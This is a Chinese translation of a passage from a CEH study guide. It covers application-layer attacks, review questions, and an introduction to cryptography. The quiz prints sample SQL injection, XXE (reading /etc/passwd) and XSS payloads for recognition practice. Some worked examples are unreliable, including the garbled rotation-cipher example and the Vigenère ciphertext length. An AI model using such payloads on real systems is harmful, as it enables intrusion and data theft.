在应用层利用方面，攻击者试图将自己的代码注入应用程序所属的内存空间。其目的是通过操纵指令指针来控制应用程序的流程，告诉处理器在哪里获取要执行的指令。缓冲区溢出可以用于将指令和返回地址压入堆栈，应用程序的数据存储于此。如果攻击者能够将指令压入堆栈，程序可能会被操纵为执行这些指令，有时称为任意代码执行。另一种攻击涉及称为堆的内存结构，动态数据存储于此。堆喷涂涉及将攻击者的代码注入堆。一旦代码到达那里，攻击者就可以导致程序在堆上执行指令。

一旦攻击者进入环境，他们就会寻求横向移动，以便访问其他系统。这可能涉及权限提升和更多侦察，以便他们能够访问可能存有更多数据的系统。

长期以来，采用纵深防御方法进行网络保护一直是一种备受尊重的策略。这有时被称为城堡防御，重点是构建大量防御墙，使攻击者更难或更麻烦地访问网络。这忽略了现代对手，他们组织严密、资金充足，并将花费必要的时间来访问高价值目标。少量额外障碍不会起到威慑作用，如果没有部署检测策略和控制措施，减缓攻击者的速度除了提供短暂的缓和之外，不会带来太多效果。纵向防御是一种通过扩大对现代攻击者运作方式的理解范围来缓解纵深防御相关一些问题的方法。纵向防御方法会审视整个网络协议栈，尽可能在可能的地方提供控制措施以防范攻击，而不是假设更多防火墙就能阻止攻击者。

一种较新的网络架构和设计方法正在变得普遍。它被称为可防御的网络架构，基于社会工程学攻击很常见这一理解。它还考虑了可见性和响应的重要性，因为泄露很常见且可能无法避免。日志记录对检测至关重要，当收集大量日志时，一个用于管理日志的系统至关重要，例如SIEM系统。

## 复习问题

您可以在附录中找到答案。

- 1. Smurf攻击使用什么协议？
  - A. DNS
  - B. ICMP
  - C. TCP
  - D. SMTP

- 2. 如果您在数据包捕获中看到 ' or 1=1;，您预期发生了什么？
  - A. 跨站脚本攻击
  - B. 命令注入
  - C. SQL注入
  - D. XML外部实体注入

- 3. 哪种协议通常用于放大攻击？
  - A. TCP
  - B. SMTP
  - C. DNS
  - D. XML

- 4. SYN洪水攻击的目的是什么？
  - A. 填充操作系统中的连接缓冲区
  - B. 填充Web服务器中的连接缓冲区
  - C. 填充应用层的连接缓冲区
  - D. 填充UDP的连接缓冲区

- 5. Slowloris攻击是如何工作的？
  - A. 保持操作系统中的连接缓冲区打开
  - B. 保持Web服务器中的连接缓冲区打开
  - C. 保持应用层的连接缓冲区打开
  - D. 保持UDP的连接缓冲区打开

- 6. 将字符串AAAAAAAAAAAAAAAA发送到分配了8字节空间的变量中会导致什么结果？
  - A. 堆喷涂
  - B. SQL注入
  - C. 缓冲区溢出
  - D. Slowloris攻击

- 7. 跨站脚本攻击的目标是什么？
  - A. Web服务器
  - B. 数据库服务器
  - C. 第三方服务器
  - D. 用户

- 8. 如果您在数据包捕获中看到以下内容，您认为发生了什么？
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
  - A. 跨站脚本攻击
  - B. SQL注入
  - C. 命令注入
  - D. XML外部实体注入

- 9. 可使用什么防护来防止SQL注入攻击？
  - A. 缓冲区溢出
  - B. 输入验证
  - C. XML过滤
  - D. 横向移动

- 10. 哪种安全元素是纵深防御网络设计中至关重要的部分？
  - A. 防火墙
  - B. SIEM
  - C. Web应用程序防火墙
  - D. 日志管理系统

- 11. 纵向防御方法增加了什么？
  - A. 对更广泛攻击范围的考虑
  - B. 防止SQL注入
  - C. 缓冲区溢出防护
  - D. 堆喷涂防护

- 12. 哪种攻击将代码注入动态分配的内存？
  - A. 缓冲区溢出
  - B. 跨站脚本攻击
  - C. 堆喷涂
  - D. Slowloris

- 13. 如果您在数据包捕获中看到以下内容，您预期发生了什么攻击？
%3Cscript%3Ealert('wubble');%3C/script%3E
  - A. SQL注入
  - B. 命令注入
  - C. 跨站脚本攻击
  - D. 缓冲区溢出

- 14. 对以下字符串做了什么处理？
%3Cscript%3Ealert('wubble');%3C/script%3E
  - A. Base64编码
  - B. URL编码
  - C. 加密
  - D. 加密哈希

- 15. 慢读攻击使用什么技术？
  - A. 小型HTTP头部请求
  - B. 小型HTTP正文请求
  - C. 小型HTTP POST请求
  - D. 小型文件检索请求

- 16. 哪种元素可用于促进日志收集、聚合和关联？
  - A. 日志管理器
  - B. 防火墙
  - C. IDS
  - D. SIEM

- 17. 命令注入攻击的目标是什么？
  - A. 操作系统
  - B. Web服务器
  - C. 数据库服务器
  - D. 用户

- 18. 低轨道离子炮会用于什么？
  - A. SQL注入攻击
  - B. 日志管理
  - C. 拒绝服务攻击
  - D. 缓冲区溢出


19. 您可以使用什么来制定防御策略？
A. SIEM 输出
B. 攻击生命周期
C. 日志
D. 入侵检测系统

20. 缓冲区溢出意图控制什么信息？
A. 栈指针
B. 帧指针
C. 指令指针
D. 缓冲区指针

# 第 13 章

# 密码学

本章将介绍以下 CEH 主题：
- 密码学
- 公钥基础设施
- 密码学技术


如果你遇到一台不加密所有流量的 Web 服务器，那你就发现了一个异常。网站传输任何明文流量（即使只是宣传页流量）都是不寻常的。Web 流量并非唯一正在加密的网络通信类型。电子邮件服务器也常使用加密。事实上，传输层安全协议（TLS）广为人知且有大量实现，因此可以轻松将其添加为使用多种协议的系统之间加密通信的一种手段。

这并不是说密码学（即隐秘书写的实践）很简单。加密消息的方法有很多，加密消息或隐藏消息中书写内容的想法已流传千年。很可能与人类书写历史一样悠久，就一直有方法让他人难以阅读所写内容。加密书写的早期形式至少可以追溯到尤利乌斯·凯撒的时代，他开发了自己的一套方法，将消息从原始形式转换为敌人无法阅读的形式。

加密原理催生了密码学的实现，例如使用非对称密钥的实现。这意味着有两个密钥——一个用于加密，一个用于解密。还有对称密钥加密，即使用同一个密钥进行加密和解密。任何密码系统的基本要素之一是密钥管理。这可以通过使用证书颁发机构来处理，该机构在理想情况下先验证身份，然后颁发加密密钥。证书颁发机构不是处理持有密钥的证书的唯一方法，还有分散式方法，但归根结底这真正涉及的是密钥管理和身份验证。

密码学不仅关乎机密性。大多数密码系统的另一个属性是完整性。你不仅想知道发送的数据受到了保护，还想知道它来自你预期的人。也许最重要的是，你想确保发送的数据就是接收到的数据。幸运的是，我们可以使用加密算法来进行这种验证。哈希算法从可变长度的输入生成固定长度的输出。有多种哈希算法需要了解和掌握。

加密关乎隐私，但重要的是要意识到，加密并非解决所有问题的万能方案。全盘加密很常见。全盘加密保护的是一块“死”硬盘（即未处于开机状态的系统中的硬盘）。没有人能偷走加密的硬盘并读取其内容。如果攻击者通过恶意软件或被盗凭证获得系统访问权限，而恶意软件以具有权限的合法用户身份运行，或者被盗凭证在系统上具有权限，那么该磁盘就好像没有加密一样。对于登录用户来说，运行中的系统看起来是未加密的。带有加密存储的移动设备也是如此。这就是为什么认识到加密能做什么和不能做什么很重要。

### 基本加密

我们从开头开始，也就是单词。或者更准确地说，开头是明文。明文就是你正在阅读的内容。它是文本或任何其他类型的数据，无需做任何其他处理即可使用。它没有以任何方式被转换。一旦这段明文经过了加密算法的转换过程，它就被称为密文。密文乍看之下应当不可读，且需要经过一个过程才能将其还原为明文。

### 替换密码

并非所有加密都必须使用当今我们使用的数学过程。其目标只是生成一些内容，使得拦截消息的人如果没有一些额外信息就无法阅读。早期的一种密码学方法是旋转密码。它取一个字母表，并按某个值旋转字母。当你将原始字母表放在旋转后的字母表之上时，你可以轻松地在两者之间转换。如果原始字母表在上方，加密只是取其下方的字母。这被称为替换密码，因为一个字母以固定且已知的方式简单地被另一个字母替换。以下是示例：

### 旋转密码

```
ABCDEFGHIJKLMNOPQRSTUVWXYZ
EFGHIJKLMNOPQRSTUVWXYZABCD
```

要加密类似 *你好* 的单词，你会在顶行找到单词中的每个字母，并在底行找到它的替换字母。这会得到 *mipps* 作为生成的密文。要解密，你会在底行找到每个字母，并用顶行同一位置的对应字母替换它。据说，这种加密消息的技术是由尤利乌斯·凯撒开发的，他用它向战地的将军们发送消息。如果消息被拦截，没有密钥就无法阅读。在这里，密钥只是字母表要旋转的位置数。

前新闻组网络 Usenet 的用户常使用旋转密码来模糊消息中可能被视为冒犯或剧透的内容。这意味着，要阅读它，某人必须故意解密消息的那部分，且不能抱怨它是明文。常见的旋转被称为 rot13，意思是文本在字母表中旋转了一半，即 13 个位置。

这并不是说密钥不能被推导。这种密码可以通过暴力攻击揭示密钥，意思是尝试每一种旋转可能性（在我们使用的拉丁字母表中，有 25 种可能性，因为 26 只是旋转回起点，根本不算任何旋转）。最终，这些尝试生成的消息会变得有意义，此时你就知道了密钥。

在替换密码中推导密钥的另一种可能性是使用频率分析。频率分析显示语言中字母使用的统计分布。图 13.1 显示了英语语言的分布。基于此分布，最常用的字母是 e，其次是 t 和 a。对像旋转密码这样的替换密码进行频率分析，会找出密文中最常用的字母，并基于正态分布应用统计概率。一旦开始替换最常用的字母，一些单词就会开始有意义，因此在字母具有相同分布概率的情况下，你可能能够根据部分解码密文中清晰的单词来识别字母。当然，对于旋转密码，一旦你解码了一个字母，你就拥有了密钥，因为你知道密文字母距离明文字母有多远。

### 图 13.1 英文字母正态分布


由于旋转密码很容易被解密（尤其是已知是旋转密码的情况下），因此有其他手动处理加密的方法。一种方法使用多维方法。你不再是将一个字母表放在旋转后的字母表之上，而是可以使用一个网格。一旦有了网格，你就需要一个更复杂的密钥。在这种情况下，你可以使用一个单词。这个单词成为用于将明文转换为密文的方法。这种密码以其开发者布莱兹·德·维吉尼耶命名。当你使用这种多表密码时，你正在使用维吉尼耶密码。

你可以在图 13.2 中看到使用维吉尼耶密码加密消息所用的网格或方阵示例。此过程的工作原理是获取明文和用作密钥的单词。假设你想使用密钥 hello 来加密单词 deforestation。你会注意到密钥中的字母数与明文中的字母数不相同。这意味着你反复重复密钥，直到用完明文中的字母。在此情况下，密钥变成 hellohellohel 以匹配 deforestation 中的 13 个字母。密钥字母在顶行与左侧列中的明文字母相匹配。行和列相交的地方，你就得到了要用于密文的字母。对于此示例，你最终得到的密文是 kizqzflwelhpsy。

### 图 13.2 维吉尼耶方阵

| | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| A | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z |
| B | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A |
| C | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B |
| D | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C |
| E | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D |
| F | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E |
| G | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F |
| H | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G |
| I | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H |
| J | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I |
| K | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J |
| L | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K |
| M | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L |
| N | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M |
| O | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N |
| P | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O |
| Q | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P |
| R | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q |
| S | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R |
| T | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S |
| U | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T |
| V | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U |
| W | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V |
| X | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W |
| Y | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X |
| Z | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y |

另一种思考方式是将密钥沿 x 轴对齐，而将明文沿 y 轴对齐。你从 y 轴上的 d 和 x 轴上的 h 开始。这两者的交点是网格中的 k。对于第二个字母，你沿 y 轴查找 e，沿 x 轴查找 e，找到行和列的交点并找到 i。你继续这个过程，直到用完明文中的字母。你会注意到这个过程有多耗时。幸运的是，今天，有简单的方法来进行这种加密和解密。有可用的程序和网站可以为你加密和解密这种密码，就像旋转密码一样。然而，这也意味着，虽然这些替换密码在开发时非常巧妙且手动解密有挑战性，但如今由于现代计算使得它们轻而易举就能破解，因此已经无法使用。因此，我们需要探索其他加密方法，包括或许尤其应该包括变换密码。


## Diffie-Hellman

就如你所料，在涉及密码学时，密钥管理至关重要。密钥是事先已知的。它们有时被称为预共享密钥，因为它们在需要之前就已共享。如果密钥没有提前共享，那么加密通信中的两方就需要一种方法来共享密钥，且不会被任何人拦截。一旦密钥被知晓，就好像消息一开始就没有加密一样。理想情况下，密钥根本不会被交换。当密钥被交换时，就有可能被知晓。更好的方法是让双方都推导出密钥。这意味着密钥永远不会被交换。

惠特菲尔德·迪菲（Whitfield Diffie）和马丁·赫尔曼（Martin Hellman）提出了一种方法，允许两个端点生成密钥，而无需传输任何会导致密钥被知晓的数据。虽然其细节涉及大量我们在此不赘述的数学知识，但在抽象层面上很容易理解。图 13.3 展示了如何使用 Diffie-Hellman 生成密钥，并使用油漆来演示该过程的工作原理。

图 13.3 Diffie-Hellman 流程


对话双方都从相同的基础油漆（初始密钥值）开始。在图 13.3 中，这种基础油漆“值”是黄色。每一方在该基础上添加一个随机值（在这里就是油漆颜色）。Alice 添加红色，Bob 添加绿色。这导致 Alice 得到橙色，Bob 得到蓝色。双方的值完全不同，源于初始随机值的注入。此时，双方可以交换他们的结果。这次交换中没有任何内容会泄露给攻击者。这假设将传输颜色分离为创建该传输颜色的两种颜色（值）是一个非常昂贵的过程。这将是一个无法反推到两个因子的数学算法。

一旦双方都拥有来自对方的值/颜色，他们只需添加自己添加到基础颜色的随机值即可。这意味着双方现在都拥有基础颜色 + 他们自己的随机值 + 对方的随机值。他们都拥有相同的颜色/值，可以用作密钥。图 13.3 显示，在传输后添加随机颜色会产生一个共同的秘密/颜色，即棕色。使用此过程，你可以创建一个可用于加密和解密双方消息的密钥。

## Symmetric Key Cryptography

对称密钥密码学

Diffie-Hellman 交换得出的密钥是一个对称密钥。我们知道这一点是因为同一个密钥用于加密和解密消息。由于两个方向都相同，所以它是对称的。这是一种相当常见的密钥方法，因为只需要管理一个密钥，并且传输方向无关紧要。双方都应该拥有相同的密钥。如果它们不相同，一个密钥加密的消息无法被另一个密钥解密，并且会显示为乱码。

任何对称密钥算法既可以是流密码也可以是分组密码。分组密码获取要加密的整个数据块，并将其转换为固定长度的块。如果数据的总长度不是块大小的倍数，则最后一个块会被填充以达到块大小。另一方面，流密码按字节加密数据。可以将 Vigenère 密码视为流密码的示例。数据一次加密一个字母，而不依赖于消息的任何其他部分。分组密码通常可能使用 64 位的块长度，即八个单字节字符。

## Data Encryption Standard (DES)

数据加密标准（DES）

数据加密标准（DES）是一种使用对称密钥的分组密码。这是一个早已弃用的加密标准，但它提出了关于密码学的一个重要元素。DES 的问题之一是它只使用 56 位密钥。当它在 1970 年获批时，基于 IBM 的 Lucifer 密码，计算能力不足以支持长密钥长度。56 位密钥是当时唯一可接受的。随着计算能力的提高，即使算法本身没有问题，该密钥也变得容易受到暴力攻击。这意味着试图破解加密消息的人可以尝试每一个可能的密钥来破解密文，以提取明文。DES 使用的块大小为 64 位，尽管密钥仅 56 位。这是因为密钥的 8 位用于校验。

当清楚 DES 存在漏洞时，出于几个原因，美国国家标准与技术研究院（NIST）发起了一项寻找替代算法的搜索。不幸的是，该搜索速度不够快，无法保护正在使用 DES 加密的数据。因此，制定了一项临时措施来提高 DES 的强度。仍然可以使用相同的算法，但可以多次应用。问题是，如果你反复使用同一个密钥进行加密，如果存在弱点，你仍然可以攻击该密钥。相反，短期的解决方法是使用多个密钥。然而，即便如此也不够。

使用三重 DES（3DES）时，有三个密钥，这将有效密钥长度增加到 168 位。然而，它不是一个单一的 168 位密钥。它是三个密钥逐个应用。一个密钥用于加密消息。第二个密钥用于解密消息。这里无需担心。由于你使用完全独立的密钥进行解密，你最终仍然得到密文而不是明文。你取最终密钥并再次应用加密算法。这会产生第三个完全不同的密文。本质上，你先取明文得到一次密文，然后取密文，将其解密为密文，再取该生成的密文并加密以获得另一轮密文。

提及 DES 和 3DES 的原因，尽管两者都已弃用，是为了表明密钥强度很重要。然而，你不能简单地比较一个密钥长度与另一个。既然三个 56 位 DES 密钥共 168 位，你可能会认为你正在使用 168 位密钥，而任何使用更短密钥的其他对称算法都会更差。这里有两点需要考虑。第一点是算法是重要的部分。如果算法很弱，密钥有多大都无关紧要。你可以将密钥长度加倍甚至加三倍，但算法仍可能被破解，从而允许消息被解密。第二点是 3DES 密钥实际上并不是 168 位。相反，它是三个独立的密钥。

## Advanced Encryption Standard (AES)

高级加密标准（AES）

DES 的替代算法是高级加密标准（AES）。正如 Lucifer 被用来创建称为 DES 的标准一样，Rijndael 密码被用作 AES 的基础。密码与标准不同，尽管 Rijndael 早些时候就已开发，但标准是在 2001 年发布的。AES 是一种分组密码，使用多个密钥长度和 128 位块长度。选择 AES 时，还选择了三种不同的密钥长度。首先使用的密钥长度是 128 位，但 192 位和 256 位的密钥长度也是可能的。正如使用 56 位密钥的 DES 随着时间变得易受攻击一样，AES 正开始可能变得易受 128 位密钥长度攻击。由于计算能力不再是障碍，正在使用更长的密钥长度。

需要注意的一点是，加密密码只是允许端点之间加密消息所必需的一部分。有多个组件，它们统称为密码套件。第一个元素是用于交换密钥的。这通常是 Diffie-Hellman（DH），但并非总是如此。第二个是要使用的加密密码。最后，有一个消息身份验证码。

我们将在后面详细介绍这一点。然而，在以下代码清单中，你可以看到 Google Web 服务器允许的密码套件列表。该列表是使用 sslscan 创建的，sslscan 是一种用于识别使用安全套接层（SSL）和 TLS 协议的服务器上支持的加密密码的工具。

## Ciphersuites

## 密码套件

| 状态 | 协议 | 位数 | 密码 | 详情 |
| :--- | :--- | :--- | :--- | :--- |
| 首选 | TLSv1.2 | 128 位 | ECDHE-RSA-AES128-GCM-SHA256 | Curve P-256 DHE 256 |
| 接受 | TLSv1.2 | 256 位 | ECDHE-RSA-AES256-GCM-SHA384 | Curve P-256 DHE 256 |
| 接受 | TLSv1.2 | 128 位 | ECDHE-RSA-AES128-SHA | Curve P-256 DHE 256 |
| 接受 | TLSv1.2 | 256 位 | ECDHE-RSA-AES256-SHA | Curve P-256 DHE 256 |
| 接受 | TLSv1.2 | 128 位 | AES128-GCM-SHA256 | |
| 接受 | TLSv1.2 | 256 位 | AES256-GCM-SHA384 | |
| 接受 | TLSv1.2 | 128 位 | AES128-SHA | |
| 接受 | TLSv1.2 | 256 位 | AES256-SHA | |
| 接受 | TLSv1.2 | 112 位 | DES-CBC3-SHA | |
| 首选 | TLSv1.1 | 128 位 | ECDHE-RSA-AES128-SHA | Curve P-256 DHE 256 |
| 接受 | TLSv1.1 | 256 位 | ECDHE-RSA-AES256-SHA | Curve P-256 DHE 256 |
| 接受 | TLSv1.1 | 128 位 | AES128-SHA | |
| 接受 | TLSv1.1 | 256 位 | AES256-SHA | |
| 接受 | TLSv1.1 | 112 位 | DES-CBC3-SHA | |

你会在那个列表中看到 AES-128 和 AES-256 都受支持。另一行需要注意的是，Google Web 服务器也支持 DES。尽管它已被 AES 取代并弃用，但仍有运行在可能功能较弱的系统上的浏览器。这意味着 DES 可能仍然必要。虽然它被接受，但不是首选算法之一。你可能会注意到这里的 DES 使用密码块链模式（CBC）。这是一种进一步转换消息的方法。在 CBC 中，每个密文块都与前一个块进行 XOR 运算。由于第一个块没有前一个块，因此有一个初始化向量（IV）用于进行 XOR 运算。请记住，密文始终是二进制的，因为每个字节可能不与可打印的 ASCII 字符对齐。

到目前为止，攻击 AES 唯一可能的方法是使用侧信道攻击。侧信道攻击依赖于使用算法弱点以外的东西。相反，实现成为目标。例如，信息可能因功耗或处理器利用率而泄露。还可能存在电磁泄漏，可能向攻击者提供信息。这不是没有深入了解密码学和系统工作原理的人就能完成的攻击类型。这并不意味着 AES 完全无懈可击，但到目前为止，尚未在算法中发现弱点。


## 非对称密钥加密

与对称密钥加密使用单个密钥进行加密和解密不同，非对称密钥加密使用两个密钥。因此，非对称密钥加密有时也被称为公钥加密。一个密钥是公钥，另一个是私钥。这两个密钥在数学上相互关联，以便一个密钥加密的内容可以由另一个密钥解密。这就是我们如何解决从一方向另一方传输密钥的问题。如果有两个密钥，只需要保护一个。另一个不需要任何保护，可以安全地传输。事实上，公钥本意就是公开的，这意味着公钥加密只有在人们实际拥有公钥时才能工作。

公钥加密使用公钥加密消息，只有私钥可以解密。在这一方案中，私钥是唯一需要保护的密钥，这没关系，因为它只需要用于解密使用相应公钥发送的消息。如果您想与某人交换加密消息，应向他们提供您的公钥，他们也应向您提供他们的公钥。仅仅发送这些密钥本身没有任何危险或风险。用它们能做的唯一事情是与相应的私钥进行交互。也没有人会使用相同的公钥来解密他人发送的消息的危险。密钥的工作原理并非如此。

使用公钥加密的常见算法之一是里维斯特-沙米尔-阿德曼（RSA）算法。这是一种基于一对非常大的素数的密钥的算法。RSA 使用的密钥大小为 1024 位、2048 位和 4096 位。这是另一个突出说明为什么无法简单地将一种算法的密钥强度与另一种算法进行比较的领域。非对称算法的行为完全不同。仅仅因为 AES 使用 128 位而 RSA 使用 1024 位，并不意味着 RSA 强一个数量级。两者非常不同，因此无法直接比较密钥大小。关于密钥大小，您只能说：使用 2048 位密钥的 RSA 比使用 1024 位密钥的 RSA 强得多，就像使用 256 位密钥的 AES 比使用 128 位密钥的 AES 强得多。

### 混合密码体制

您可能会问为什么会有两种算法——对称和非对称。为什么不只使用一种呢？虽然无法直接比较对称和非对称算法，但非对称密钥大得多。如果攻击依赖于暴力破解，与破解 128 位密钥相比，暴力破解 1024 位密钥所需的时间要长得多，这仅仅是因为密钥空间中的密钥数量多出许多数量级。那么，为什么不到处都使用非对称密钥加密呢？

首先，非对称密钥加密在计算能力方面成本高昂。由于密钥的大小，它不是特别快。虽然现代计算机速度很快，这不再是曾经的问题，但我们仍然需要使用越来越大的密钥，由于密钥长度，这可能意味着更多的计算。其次，公钥加密伴随着大量的开销。如果我们想到处都使用公钥加密，每个人都需要拥有这样的密钥。这在很大程度上不切实际。当我们讨论密钥管理和证书颁发机构时，您就会明白原因。

不过，在对称密钥加密方面，我们仍然面临密钥交换的问题。不过，我们可以使用公钥加密来解决这个问题。我们通过同时使用公钥加密和对称密钥加密来实现这一点。这种方法被称为混合密码体制。公钥可以用来保护对称密钥，因此不存在有人获取这个对称密钥的问题。在这种情况下，对称密钥有时被称为会话密钥，因为它用于加密两个系统之间会话中的数据。这种混合密码体制最常用于与 Web 服务器通信。

虽然 Diffie-Hellman 可用于协商密钥派生，但在实际中它并不用于混合密码体制。相反，任意一方会生成一个对称密钥。生成密钥后，会使用公钥对其进行加密。在 Web 通信中，通常只有 Web 服务器拥有公钥。这意味着客户端会生成会话（对称）密钥，使用 Web 服务器的公钥对其加密，然后发送到 Web 服务器。

### 不可否认性

公钥加密的另一个价值在于，公钥和私钥专属于某个人或系统，具体取决于其最终用途。我们可以利用属于已知个人的公钥。除了加密之外，非对称密钥还可以用于对消息进行数字签名。消息使用某人的私钥进行签名。可以使用该人的公钥进行验证。在这种情况下，我们不必担心隐私问题，因为这只是一个签名。它用于证明消息是由拥有私钥的人生成的。证明消息来自私钥所有者的这一原则称为不可否认性。

公平地说，不可否认性表示，当使用私钥发送消息时，该私钥的所有者不能声称该消息不是由他们发出的。这与先前的表述有些相反。这两种思考方式意味着相同的事情，或者至少具有相同的效果。只是术语 *不可否认性* 的意思是，您不能通过声称某事不是来自您自己而反悔。

这确实要求保护私钥。如果私钥没有任何保护且泄露到外界，任何人都可能使用它。这就是为什么保护密钥有不同含义的原因。第一是包含密钥的文件应具有适当的权限，以便只有文件所有者可以访问它。不过，这只是保护的一部分。攻击者仍可能以该用户身份访问某人的系统并获取密钥。这就是为什么使用密钥需要密码的原因。在密钥用于对消息签名之前，会提示输入密码，否则消息签名将失败。

### 椭圆曲线密码学

虽然质数分解通常用于生成密钥，但由于对这些大数进行计算所需的计算能力和时间非常巨大，使用它们不是生成密钥的唯一方法。像质数分解这样的复杂问题被认为是难以解决的，这意味着解决该问题所需的能力实际上是难以承受的。然而，大质数本身只是耗时。应用更多的计算能力可以解决这些问题。随着计算能力变得更便宜，这变得更容易。计算机变得越来越强大，同时使用许多计算机来处理复杂和困难的任务也远不再困难。

不过，椭圆曲线密码学（ECC）采用了不同的方法。ECC 不仅仅是使用像质数分解这样资源密集型的计算，而是使用离散对数。人们假设，识别随机椭圆曲线元素的离散对数不仅在计算上困难，而且是不可行的。使用 ECC 时，密钥大小最终会小得多。这减少了加密和解密所需的计算能力。

可以通过绘制多项式函数的图形来观察椭圆曲线。如图 13.4 所示的示例是函数 y² = x³ – x + 1 的图。对数是幂运算的逆运算，而离散对数是使一个数的幂等于另一个数的那个指数值。本质上，它是指数。如果采用函数 b^k = a，则 k 是离散对数。本质上，您选择曲线上的一个点并找到该点的 k 值。这就是 ECC 中使用的值。

### 图 13.4 椭圆曲线


你可能会觉得这不难。现实是，计算离散对数没有标准的方法。在某些特定情况下，离散对数可以被轻松快速地计算，但离散对数并非一个具有通用解法的问题，因此给定离散对数 x 时，计算解的方式只有一种。这正是 ECC 无法求解的原因。与质数的因子不同（尽管存在已知的计算方法，即使它们耗费大量资源），ECC 之所以有效，是因为没有办法逆转过程来找到答案。

也许更容易理解的方式是：存在大量多变量多项式方程。没有一种单一算法可以取方程生成的曲线上的一点并将其逆转回原始方程。没有这种能让所有方程求解（或者更准确地说，逆向求解）的通用算法，这就是另一个难以处理的问题，它允许创建无法轻易确定的密钥。

## 证书颁发机构与密钥管理

密钥使密码学发挥作用。没有它们，我们就没有办法逆转加密过程。将文本转换为不可理解的东西很简单。真正复杂的是可以逆转的转换。既然拥有密钥就赋予某人解密消息的能力，保护密钥就至关重要。用于会话的密钥需要受到保护，但不需要在其所需的会话之外存储。一旦会话结束，比如客户端与 Web 服务器通话的短短几分钟内，密钥就会被丢弃。但是，为个人创建并与其关联的密钥（即使该个人是服务器）需要持久化。

密钥可以存储在称为证书的数据结构中。证书结构由 X.509 定义。X.509 是用于定义数字目录服务的更大 X.500 标准的一部分。作为数字目录的一部分，可以存储加密证书。当你生成公钥时，它会被存储在证书记录中。一旦拥有证书，你不想自己去管理它。请记住，证书包括密钥信息，当你使用公钥密码学时，目的是让你的公钥广泛可用。这意味着理想情况下应该有一个存储证书的仓库。

### 证书颁发机构

证书颁发机构（CA）是证书的仓库。它向用户颁发证书，这意味着它收集用户的信息，然后生成密钥提供给用户。证书存储在机构中，也提供给用户。当然，有人需要管理证书仓库。CA 及其相关系统被称为公钥基础设施（PKI）。拥有此类仓库的公司有时被称为证书颁发机构，因为它是管理证书的权威机构。有时软件本身被称为权威机构。名为 Simple Authority 的软件就是这种情况。该软件使用 OpenSSL 库和实用程序生成证书，并通过图形界面处理存储、创建和管理。图 13.5 显示了使用 Simple Authority 创建证书颁发机构，即创建根证书和证书仓库。根证书是 CA 中所有其他证书签名的证书。

图 13.5 Simple Authority CA 创建


一旦生成了根证书，你就可以创建其他证书。图 13.6 不仅显示了新证书的创建，还显示了可以创建的不同类型的证书。任何想要使用公钥密码学加密消息的实体都需要拥有证书。如果你想向某人发送消息，可以获取证书。不过，服务器也需要证书。任何使用加密消息的 Web 服务器，如今很少找到不加密流量的 Web 服务器，都需要拥有证书。你可以将其视为选项之一。如果你要设置一个将使用 TLS 的 Web 服务器，你会选择 SSL 服务器，因为 TLS 是曾经称为 SSL 的当前实现。

图 13.6 证书创建


一旦你提供了证书所需的详细信息，CA 就会创建密钥并存储证书。然后，CA 会为用户提供获取证书的途径。这是必要的，因为用户必须拥有私钥。CA 可以将公钥提供给任何想要它的人，但拥有证书的用户需要拥有私钥部分。证书创建后，你可以打开它查看详细信息。你可以在图 13.7 中看到这些详细信息。在那里你将看到证书创建过程中提供的详细信息以及关于密钥的信息。你看不到的是密钥本身。这只是一组位，不可打印，因为每个字节不限于 ASCII 表中被认为可打印的值集合。任何字节值都是可能的，而其中大多数看起来就像乱码。

图 13.7 证书详细信息

| 字段 | 值 |
|---|---|
| 版本 | V3 |
| 序列号 | 1548015891839 |
| 签名算法 | SHA256WITHRSA |
| 颁发者 | C=US,O=The Best Certificate Authority,OU=Crypto ... |
| 有效期自 | Jan 20, 2019 1:24 PM |
| 有效期至 | Jan 20, 2020 1:24 PM |
